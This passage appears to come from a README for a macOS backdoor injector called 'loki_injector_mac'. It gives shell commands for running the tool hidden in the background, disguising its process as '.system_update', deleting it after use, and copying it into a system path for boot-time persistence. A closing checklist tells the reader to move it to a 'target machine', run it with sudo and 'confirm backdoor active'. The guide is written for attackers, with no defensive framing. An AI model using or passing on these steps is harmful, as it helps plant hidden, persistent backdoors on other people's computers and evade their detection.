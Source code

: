 ## ⚡ Advanced Usage

### Stealth Execution
```bash
# Run in background
nohup sudo ./loki_injector_mac > /dev/null 2>&1 &

# Hide process
mv loki_injector_mac .system_update
sudo ./.system_update
```

### Auto-cleanup
```bash
# Remove after execution
sudo ./loki_injector_mac && rm -f loki_injector_mac
```

### Persistence
```bash
# Copy to system location (requires SIP disabled)
sudo cp loki_injector_mac /usr/local/bin/system_check
sudo chmod +x /usr/local/bin/system_check

# Create LaunchDaemon (auto-run on boot)
# Advanced - see macOS persistence techniques
```

## ✅ Next Steps

1. Transfer to macOS target machine
2. Make executable: `chmod +x loki_injector_mac`
3. Run with sudo: `sudo ./loki_injector_mac`
4. Verify injection successful
5. Restart target applications
6. Confirm backdoor active (check DevTools console)

---

**Ready to deploy?** Transfer and execute with sudo privileges!
